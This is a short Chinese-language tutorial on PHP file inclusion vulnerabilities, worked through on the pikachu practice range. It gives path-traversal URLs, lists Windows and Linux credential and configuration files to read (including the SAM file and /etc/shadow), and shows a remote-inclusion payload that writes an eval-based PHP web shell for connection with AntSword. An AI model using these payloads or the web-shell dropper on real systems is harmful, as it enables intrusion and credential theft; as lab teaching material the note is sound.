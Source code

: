 # 文件包含漏洞

## 一、原理

文件包含漏洞指在程序编写之初，为了代码简介使用一些文件包含的函数如include（）与require()，攻击者可以通过这个漏洞查看其他函数。根据场景不同，又分为远程文件包含漏洞和本地文件包含漏洞

## 二、应用

以pikachu靶场为例

php配置文件

```
allow_url_fopen=on
Allow_url=on
magic_quote_gpc=on
```

#### 本地文件包含

```
http://192.168.31.101/pikachu/vul/fileinclude/fi_local.php?filename=file3.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

可以看出，是通过前端调用一个函数

使用../../../../../跳转到根目录

```
http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../../../Windows/System32/drivers/etc/hosts&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

windows

```
    c:\boot.ini // 查看系统版本

    c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件

    c:\windows\repair\sam // 存储Windows系统初次安装的密码

    c:\ProgramFiles\mysql\my.ini // MySQL配置

    c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码

    c:\windows\php.ini // php 配置信息
```

linux

```
    /etc/passwd // 账户信息

    /etc/shadow // 账户密码文件

    /usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件

    /usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置

    /usr/local/app/php5/lib/php.ini // PHP相关配置

    /etc/httpd/conf/httpd.conf // Apache配置文件

    /etc/my.conf // mysql 配置文件
```

#### 远程文件包含

```
http://127.0.0.1/pikachu/vul/fileinclude/fi_remote.php?filename=include%2Ffile1.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

修改利用

```
http://127.0.0.1/pikachu/vul/fileinclude/fi_remote.php?filename=恶意代码url&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

可以构建一个恶意站点，写一个自动生成木马的文件，然后被目标站点执行，生成木马。找到路径后，用蚁剑连接即可

在恶意站点创建可以生成木马的文件

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[c]);?>');?>
```

用蚁剑连一下就行了

